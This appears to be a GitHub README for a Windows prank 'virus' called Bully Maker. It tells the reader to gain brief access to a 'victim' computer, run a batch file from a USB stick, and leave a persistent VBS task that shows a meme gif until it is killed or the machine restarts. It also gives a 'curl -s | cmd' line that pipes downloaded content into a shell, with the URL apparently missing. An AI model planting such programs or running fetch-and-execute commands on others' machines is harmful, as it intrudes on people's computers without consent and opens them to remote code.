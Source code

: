 # Bully Maker

A program that bullies the victim computer with a meme albanian virus and a sussy hacker gif

Inspiration for albanian virus:
https://www.reddit.com/r/funny/comments/3l65rp/albanian_virus/

## Requirements
- Windows operating system
- Access to the victim computer for a few minutes

## Usage

- Copy the setup.bat and bully.gif to a pendrive
- Open the pendrive in the victim's computer and run the setup file
- Enter the time you want the program to wait, as you would wish the program to
run while the computer is being used. the default waiting time is 120 seconds
that is 2 minutes.
- After the setup is completed unplug the pendrive, and after the timeout is 
completed, the meme virus will detonate.

## FAQs
1) Is this harmful?<br>
A) Not really

2) How to stop the program?
A) The program doesn't stop by itself, you will need open task manager and kill the vbs task.
If you cannot do that, the only option is to restart the computer.

3) How to uninstall the virus?
A) Go to the temp folder by typing `cd %tmp%` and delete the folder named
bully by running `rmdir /s bully`

## Miscellaneous
If you do not wish to use a pendrive and the victim computer has internet connection
you can also run the below command in cmd

`curl -s | cmd`
